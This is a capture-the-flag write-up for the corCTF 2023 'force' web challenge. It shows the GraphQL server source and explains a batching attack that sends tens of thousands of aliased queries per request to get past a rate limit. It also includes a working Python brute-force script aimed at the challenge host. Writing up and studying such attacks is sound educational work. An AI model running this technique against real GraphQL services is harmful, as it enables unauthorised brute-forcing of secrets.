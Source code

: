 ```yaml
---
title: corCTF 2023 Writeup
date: 
tags:
---
```

# corCTF 2023

# Web/force

## Challenge Overview

`Description`: Unbreakable vault door!

![Index](./images/corctf23/index.png)

We have been given a website with a query in it.

So first let's see the source code given.

```js
import fastify from 'fastify';
import mercurius from 'mercurius';
import { randomInt } from 'crypto';
import { readFile } from 'fs/promises';

const app = fastify({
    logger: true
});
const index = await readFile('./index.html', 'utf-8');

const secret = randomInt(0, 10 ** 5);

let requests = 10;

setInterval(() => requests = 10, 60000);

await app.register(mercurius, {
    schema: `type Query {
        flag(pin: Int): String
    }`,
    resolvers: {
        Query: {
            flag: (_, { pin }) => {
                if (pin !== secret) {
                    return 'Wrong!';
                }
                return process.env.FLAG || 'corctf{REDACTED}';
            }
        }
    },
    routes: false
});

app.get('/', (req, res) => {
    return res.header('Content-Type', 'text/html').send(index);
});

app.post('/', async (req, res) => {
    if (requests <= 0) {
        return res.send('no u');
    }
    requests--;
    return res.graphql(req.body);
});

app.listen({ host: '0.0.0.0', port: 4020 });
```
So it generates a random integer named `secret` from 0 to 100000 and if we send the query in the given format with pin matching the secret it will give us the flag but the problem is there are 100000 possibilities and we can't bruteforce also because we can send only 10 request per 60 seconds.

## Vulnerability Identification

So we have to find a way in which we can send different pins multiple times in the 1 post request.

There is a technique named `graphql-batching-attack` in which we can send multiple query in 1 post request as given below in image.

![Reference](./images/corctf23/reference.png)

[Reference](https://lab.wallarm.com/graphql-batching-attack/)


## Exploiting the Vulnerability

So to exploit it we will be sending the query with 30000 flags each time with the below given python sctipt.

```python
import requests
import re

headers = {
    'Content-Type': 'text/plain;charset=UTF-8',
}
url = 'https://web-force-force-a2e5f8d6b3c3a1f9.be.ax/'

for i in range(4):
    query = ''
    print(f'trying from {i * 30000} to {(i + 1) * 30000 - 1}')
    
    for x in range(i * 30000, (i + 1) * 30000):
        query += f'flag{x} : flag(pin: {x})\n'
    response = requests.post(url, headers=headers, data=f'{{{query}}}')
    
    if 'corctf{' in response.text:
        flag = re.search(r'corctf\{.*?\}', response.text)
        if flag:
            print(f"Found flag on : {flag.group(0)}") 
            break

```

## Obtaining the Flag

Hence after running the script we get the flag

![Flag](./images/corctf23/flag.png) 

Flag: **corctf{S&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;T&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;O&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;N&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;K&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;S}**

Thank You